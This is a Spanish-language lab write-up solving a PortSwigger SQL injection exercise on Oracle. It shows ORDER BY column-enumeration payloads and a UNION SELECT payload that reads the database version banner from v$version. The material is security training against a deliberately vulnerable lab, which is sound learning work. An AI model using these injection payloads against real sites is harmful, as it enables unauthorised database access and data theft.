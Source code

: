 # PortSwigger - SQL i


## Lab: SQL injection attack, querying the database type and version on Oracle


## Solución

Primero hacemos click en **Accessories** o en cualquier otro filtro de búsqueda.

![](./imagenes/lab7-1.png)

Luego ejecutamos una query para enumerar la cantidad de columnas que existen.

```sql
' ORDER BY 1 -- -
```

![](./imagenes/lab7-4.png)

Con 1 la página funciona correctamente. Debemos seguir hasta que la página falle.

```sql
' ORDER BY 1,2 -- -
```

![](./imagenes/lab7-5.png)

Con 3 la página falla, esto significa que debemos agregar 2 `null` a nuestra query final.

```sql
' ORDER BY 1,2,3 -- -
```

![](./imagenes/lab7-6.png)

Siguiendo la [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) de PortSwigger podemos armar nuestra query final. 

Debemos identificar la versión que la base de datos, primero probaremos con Oracle y si no funciona probamos con Microsoft, PostgreSQL y así.

```sql
' UNION SELECT banner,null from v$version -- -
```

Por suerte el primer payload funcionó e identificamos que la base de datos es Oracle, además resolvimos el lab.

![](./imagenes/lab7-7.png)

